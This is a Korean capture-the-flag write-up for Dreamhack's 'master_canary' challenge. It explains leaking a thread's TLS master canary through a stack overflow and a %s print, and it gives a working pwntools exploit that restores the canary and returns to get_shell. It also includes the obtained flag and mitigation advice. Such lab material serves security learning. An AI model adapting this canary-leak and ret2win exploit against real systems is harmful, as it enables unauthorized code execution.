# Master Canary (Dreamhack master_canary)

> 실습 환경: **Dreamhack** (master_canary) · WSL(Ubuntu)에서 분석, 원격 VM(`nc`)으로 익스플로잇
> 문제: 멀티스레드 환경의 스택 카나리 우회 (Thread TLS master canary leak) https://dreamhack.io/wargame/challenges/58
> 난이도: Level 2 (pwnable) · 환경: Ubuntu 16.04 / glibc 2.23

---

## 1. 소스코드 분석

**소스코드 (`master_canary.c`)**





**핵심 포인트**

1. `void *thread_routine()` 안의 `char buf[256];` + `global_buffer = buf;`
    - 생성된 **스레드의 스택 버퍼**를 전역 포인터가 가리킨다.
    - 스레드는 `global_buffer`만 세팅하고 바로 **종료**한다.
2. `read_bytes(global_buffer, size)` (메뉴 `2. Input`)
    - `scanf("%lu", &size)` 로 **크기를 사용자가 지정, 상한 없음**
    - 256바이트 버퍼에 `size`만큼 그대로 씀 → **스레드 스택 오버플로우**
3. `printf("Data: %s", global_buffer)`
    - 버퍼를 **널까지 출력** → 카나리/주소 **유출 통로**
4. `char leave_comment[32];` + `read(0, leave_comment, 1024)` (메뉴 `3. Exit`)
    - 32바이트 버퍼에 1024바이트 → **main의 RET까지 덮는 오버플로우**
    - 직후 `return 0` 에서 **main의 카나리 검증**이 일어남
5. `void get_shell()` → `system("/bin/sh")`
    - 바로 호출만 하면 셸이 떨어지는 **ret2win 타깃**

→ 목표: 2·3으로 **스레드 TLS의 master canary를 유출**하고, 4에서 **그 카나리를 복구하면서 RET를 `get_shell`로 덮기**

---

## 2. 바이너리 / 보호 기법 확인

### 2-1. 파일 정보 & 심볼 (file / nm)

```bash
file master_canary
nm master_canary | grep -E "get_shell|main|thread_routine"
```



- `dynamically linked, not stripped` → 심볼로 디버깅 가능
- `get_shell = 0x400a4a` (고정 주소, No PIE라 그대로 사용)

### 2-2. 보호 기법 (checksec)

```bash
checksec --file=./master_canary
```



| 보호 기법 | 결과 | 의미 / 공격에 미치는 영향 |
| --- | --- | --- |
| Canary | **Canary found** | RET 앞 검사값 존재 → 그냥 덮으면 탐지됨 → **카나리 유출 후 복구 필요** |
| NX | **NX enabled** | 스택 셸코드 실행 불가 → 코드 재사용(**ret2win**)으로 접근 |
| PIE | **No PIE (0x400000)** | 코드 주소 **고정** → `get_shell`·가젯 주소를 그대로 사용 |
| RELRO | Partial RELRO | (이 풀이와는 무관) |

**→ No PIE(주소 고정) + 카나리 유출 가능 + get_shell 존재**

→ 핵심은 **멀티스레드 카나리(master canary)를 어떻게 유출하는가**

---

## 3. 공격 전략 수립

이 문제의 핵심은 카나리를 어디서 어떻게 얻느냐! 이다.

| 해결할 것 | 상황 | 돌파 방법 |
| --- | --- | --- |
| main 카나리 | `leave_comment` 오버플로우로 RET 덮으려면 main 카나리 필요 | 스레드 TLS의 **master canary 유출** (아래 원리) |
| 셸 실행 | NX로 셸코드 불가 | 고정 주소의 **`get_shell` 로 ret2win** |
| 스택 정렬 | `system()` 내부 `movaps` 정렬 요구 | `ret` 가젯 1개로 16바이트 정렬 |

### 3-1. 핵심 원리 (왜 스레드에서 main의 카나리가 나오는지)

glibc는 **스레드를 생성할 때 생성자(메인)의 카나리를 자식 스레드의 TLS로 그대로 복사**한다(`THREAD_COPY_STACK_GUARD`). 즉, **스레드의 master canary == 메인 스레드의 카나리**

따라서 스레드 스택 오버플로우로 **스레드 TLS의 `stack_guard`(= `fs:0x28`)를 유출**하면, 그 값이 곧 main에서 검증하는 카나리가 된다.

### 3-2. 중요한 제약 — 연결마다 값이 바뀜

이 문제의 서비스는 `socat ... EXEC:...` 구조라 **접속마다 프로세스를 새로 exec** 한다.

→ **ASLR·카나리가 연결마다 재랜덤화**된다. 따라서 **leak과 사용(RET 덮기)을 반드시 하나의 연결 안에서** 끝내야 한다. (오프셋은 고정, 값만 매번 다름)

**공격 흐름**

1. `1. Create thread` → `global_buffer = 스레드 buf`
2. `2. Input` → master canary 유출 (한 번의 큰 입력)
3. `3. Exit` → `leave_comment` 오버플로우로 카나리 복구 + `get_shell` 로 RET

---

## 4. 메모리 구조 분석

### 4-1. thread_routine 디스어셈블 (buf 와 카나리 오프셋)

```bash
objdump -d -M intel master_canary | sed -n '/<thread_routine>:/,/<read_bytes>:/p'
```



- `lea rax,[rbp-0x110]` → `mov [global_buffer], rax` → **buf = `rbp-0x110`**
- `mov rax, fs:0x28` → `mov [rbp-0x8], rax` → **프레임 카나리 = `rbp-0x8`**
- 단, 스레드가 **return(종료)된 뒤** 이 프레임 카나리 자리는 glibc teardown으로 **포인터로 덮여** 사라진다. → 프레임 카나리가 아니라 **TLS의 master canary**를 노려야 한다.

### 4-2. master canary 위치 찾기 (TLS / TCB)

스레드의 TLS 블록(TCB)은 스레드 스택 상단에 있고, 그 안의 `stack_guard`(카나리)는 **`TCB + 0x28`** 에 위치한다. 즉 **buf 로부터 카나리까지의 거리**만 구하면 유출할 수 있다.

**(1) 로컬(WSL) gdb 로 원리 확인**

`thread_routine` 에 중단점을 걸고(스레드가 살아있을 때) `fs:0x28`(TLS 카나리)과 buf 주소의 차를 직접 계산한다.

```bash
gdb ./master_canary -ex 'b *0x400a83' -ex run
# 메뉴에서 1 입력 → thread_routine 중단점 히트 후:
(gdb) p/x $rbp - 0x110               # buf 주소
(gdb) p/x $fs_base + 0x28            # 카나리 저장 주소 (TLS)
(gdb) x/gx $fs_base + 0x28           # 카나리 값 (…00 으로 끝남)
(gdb) p/x 0x7ffff7bff6e8 - 0x7ffff7bfed80   # 두 주소 차 = 오프셋
```



- 로컬(WSL 최신 glibc) 기준 **오프셋 = `0x968`**, 카나리 값은 `…00` 으로 끝남(진짜 카나리)

**(2) 원격(문제 서버)에서 실제 오프셋 확인**

서버는 Ubuntu 16.04/glibc 2.23 환경이라 오프셋이 다르다. 스레드 TLS 를 직접 떠보면 `buf+0x8c0` 에 TCB self-pointer(0x7f.. 포인터)가, `TCB+0x28 = buf+0x8e8` 에 master canary(LSB `00` + 랜덤)가 보인다.

```bash
python3 find_offset.py host3.dreamhack.games <PORT>
```



- 원격(Ubuntu 16.04) 기준 **오프셋 = `0x8e8` (2280)** ← 실제 익스플로잇에 사용

> **⚠️ 오프셋은 환경에 따라 다르다.** 로컬 `0x968` vs 서버 `0x8e8` 처럼, TLS 레이아웃은 glibc/배포판 버전에 좌우된다. 따라서 **익스플로잇에 쓸 오프셋은 반드시 대상(서버)과 동일한 환경에서 확정**해야 한다. 이 문제의 최종 값은 서버 기준 `0x8e8` 이다.

### 4-3. main 디스어셈블 (leave_comment 레이아웃)

```bash
objdump -d -M intel master_canary | sed -n '/<main>:/,/ret/p'
```





- `lea rax,[rbp-0x30]` + `read(0, .., 0x400)` → **leave_comment = `rbp-0x30`**
- 카나리 = `rbp-0x8` → **leave_comment → 카나리 오프셋 = 0x30 - 0x8 = 0x28 = 40**
- 카나리(8) → SFP(8) → RET 순

```
스레드 buf (thread_routine)                 main 프레임 (leave_comment)
buf+0x000 ┌───────────────┐                 lc+0x00 ┌───────────────┐
          │  buf[256]     │                         │ leave_comment │ (32)
   ...    │   ...         │                 lc+0x28 ├───────────────┤ ← 카나리(복구)
buf+0x8e8 │ master canary │ ← 유출          lc+0x30 ├───────────────┤ ← SFP(더미)
          └───────────────┘                 lc+0x38 ├───────────────┤ ← RET = get_shell
                                                     └───────────────┘
```

> **왜 카나리를 유출할 수 있나?**
> `read_bytes`는 널을 자동으로 붙이지 않는다. 카나리 최하위 바이트는 항상 `\x00`인데, buf부터 카나리 널 자리(offset 0x8e8)까지 전부 non-null(`'A'`)로 채우면, `printf("%s", global_buffer)`가 널을 만날 때까지 출력하며 **카나리 상위 7바이트를 흘린다.**
> → `canary = \x00 + 유출된 7바이트` (덮는 TLS는 이미 종료된 자식 스레드 것이라, 메인의 `printf`는 메인 TLS를 쓰므로 안전하다.)

---

## 5. 익스플로잇 작성 (pwntools)

```python
#!/usr/bin/env python3
# Dreamhack - master_canary
#   python3 exploit.py <host> <port>
from pwn import *
import sys

context.arch = 'amd64'

get_shell = 0x400a4a
ret       = 0x400a49       # system() movaps 정렬용 ret 가젯
PAD_MAIN  = 40             # main: leave_comment(rbp-0x30) -> saved canary(rbp-0x8)
K         = 0x8e8          # 스레드 buf -> TLS master canary (TCB base buf+0x8c0, +0x28)

p = remote(sys.argv[1], int(sys.argv[2]))

# 1) 스레드 생성 -> global_buffer = 스레드 buf
p.sendlineafter(b'> ', b'1')

# 2) master canary leak (K+1 바이트로 카나리 LSB(\x00)를 덮어 상위 7바이트 흘리기)
p.sendlineafter(b'> ', b'2')
p.sendlineafter(b'Size: ', str(K + 1).encode())
p.sendafter(b'Data: ', b'A' * (K + 1))
p.recvuntil(b'Data: ')                               # 두 번째 'Data: '
echo = p.recvuntil(b'1. Create thread', drop=True)
canary = u64(b'\x00' + echo[K + 1:K + 8])            # \x00 + 유출된 7바이트
log.success(f'master canary = {hex(canary)}')

# 3) exit -> leave_comment 오버플로우 -> 카나리 복구 + ret2win
p.sendlineafter(b'> ', b'3')
payload  = b'A' * PAD_MAIN
payload += p64(canary)       # main 카나리 == master canary (복구)
payload += b'B' * 8          # SFP 더미
payload += p64(ret)          # 스택 16바이트 정렬
payload += p64(get_shell)    # RET -> get_shell
p.sendafter(b'Leave comment: ', payload)

p.sendline(b'cat flag')
p.interactive()
```

**페이로드 구조 (3단계)**

```
[ 'A' * 40 ][ canary (8) ][ SFP 더미 (8) ][ ret 가젯 (8) ][ RET = get_shell (8) ]
 └ lc~카나리 ┘└ 원값복구 ┘└───────────────┘└   정렬맞춤   ┘└    셸 함수로 점프    ┘
```

- 카나리를 **원래 값으로 복구**해야 `return 0`의 검사를 통과 → 강제 종료 안 됨
- NX가 켜져 셸코드는 못 쓰므로, 고정 주소의 **`get_shell` 로 ret2win**
- `get_shell` 직행 시 `system()` 내부 `movaps`가 **스택 16바이트 정렬**을 요구 → `ret` 가젯 하나를 끼워 해결

---

## 6. 실행 & FLAG 획득

```bash
python3 exploit.py host3.dreamhack.games <PORT>
```



- 유출된 master canary: `0x1de1801430c4fb00` (LSB `00` 확인)
- 셸 획득 후 `cat flag`
- **획득 FLAG**: `DH{5784e01c14862d84172ca055720f512ec3dd7e3b4421c691f638b1152cd62312}`



---

## 7. 취약점 발생 원인

- `read_bytes(global_buffer, size)` 가 **`size`를 검증하지 않아** 스레드 스택을 넘겨 TLS(master canary)까지 접근·유출할 수 있다.
- `printf("%s", global_buffer)` 가 **널까지 출력**하므로, 카나리 LSB(`\x00`)만 덮으면 상위 바이트가 흘러나온다.
- glibc가 스레드 생성 시 **메인 카나리를 자식 TLS로 복사**하는 특성 때문에, 스레드에서 유출한 값이 곧 main의 카나리가 된다.
- `read(0, leave_comment, 1024)` 가 32바이트 버퍼에 **1024바이트**를 받아 main의 RET까지 덮는다.
- **No PIE** 라 `get_shell` 주소가 고정이어서 ret2win이 바로 성립한다.

---

## 8. 대응 방안

- 입력 길이를 **버퍼 크기로 제한**(`read_bytes`에 상한, `leave_comment`는 `sizeof`까지만).
- 버퍼를 `%s`로 출력하기 전 **명시적 널 종료 및 길이 관리** (info leak 통로 제거).
- **PIE 활성화**로 `get_shell`·가젯 주소 랜덤화 → ret2win 난이도 상승.
- `get_shell` 같은 **위험한 디버그/백도어 함수 제거**.
- 멀티스레드라도 카나리의 **비밀성 유지**가 핵심. 유출 취약점을 함께 제거해야 카나리가 유효하다.

---

## 9. 배운 점

- 카나리는 아예 뚫을 수 없는 것이 아니라, **유출 통로가 있으면 우회 가능**하다는 점을 다시 확인했다. 특히 **카나리 LSB = `\x00`** 성질과 **`%s`의 동작**을 엮는 아이디어가 핵심.
- **멀티스레드의 master canary 공유**(생성 시 복사)를 이용해, 접근할 수 없는 main의 카나리를 **스레드 TLS에서 대신 유출**한다는 발상이 이 문제의 핵심이었다.
- 처음엔 로컬 gdb로 `buf+168`에서 찾은 값을 카나리로 오해했는데, 그건 우연히 값이 같은 다른 위치였고 **진짜 master canary는 TLS의 `buf+0x8e8`** 였다. → **오프셋은 반드시 대상 환경(여기선 Ubuntu 16.04)에서 확정**해야 한다.
- `socat EXEC` 때문에 **연결마다 값이 재랜덤화**되어 leak과 사용을 한 연결 안에서 끝내야 했다. 운영 환경이 익스플로잇 구조를 좌우한다는 점.
- `system()` 의 `movaps` 정렬로 인한 SIGSEGV를 **`ret` 가젯**으로 넘긴 것도 실전 디테일이었다.
